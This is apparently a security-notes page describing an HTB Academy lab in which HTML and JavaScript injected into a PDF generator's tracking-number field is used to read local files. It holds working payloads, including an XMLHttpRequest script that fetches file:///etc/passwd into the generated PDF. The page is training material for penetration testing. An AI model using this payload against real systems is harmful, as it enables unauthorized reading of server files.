



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSRF -> LFI


The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.


The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).



```html
<h1>test</h1>
```



```javascript
<script>document.write('TESTING THIS')</script>
```



<figure><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Follow [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).



```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```







<figure><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources











